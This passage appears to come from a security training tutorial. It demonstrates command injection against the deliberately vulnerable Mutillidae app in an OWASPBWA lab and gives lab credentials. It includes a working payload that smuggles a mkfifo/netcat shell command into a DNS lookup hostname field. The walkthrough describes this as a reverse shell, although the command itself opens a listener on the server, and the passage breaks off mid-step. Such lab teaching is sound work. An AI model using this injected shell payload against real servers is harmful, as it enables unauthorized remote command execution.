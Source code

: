#### Command Injection Shell

As a method of code injection, chaining limits the number of commands that can be run and the amount of work that can be done on the site. 

Alternatively, attackers can use a command injection shell to establish a reverse shell from the infected web server back to the attacker's machine, where a listener waits to complete the connection.

- We'll use a Netcat listener on the attacker's Kali machine.

#### Command Injection Shell Demonstration

This demonstration will use the following environments:

   - Attacker: Kali Linux 
      - Username: `instructor`
      - Password: `instructor`

   - Vulnerable Web Server: owaspbwa 
      - Mutillidae II > OWASP 2013 > A1 Injection (Other) > Command Injection > DNS Lookup  

Launch the owaspbwa and Kali VMs.

1. In Kali, navigate to the DNS Lookup page. We'll need to set up a listener on the inside of a network. 
   
   - Egress (outbound) filtering on web server firewalls is generally less restrictive than ingress (inbound) filters.

   Enter the following code into the **Hostname/IP** box to establish a listener back to the attacker's machine.

   - `127.0.0.1;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`

      - `127.0.0.1`: Localhost of the web server.
      - `;`: Indicates the start of the command injection.
      - `mkfifo /tmp/pipe;sh /tmp/pipe`: Makes a FIFO (first-in-first-out) named pipe. 
         - Pipes allow separate processes to communicate. This allows two processes to connect using Netcat and controls the directional flow of data. In this case, data will flow from a compromised web server to an attacker's computer.  
      - `nc -l 4444`: Netcat will establish a listener that allows connections on port `4444`.
        - Please note you'll only see the command below once you have terminated the connection.
   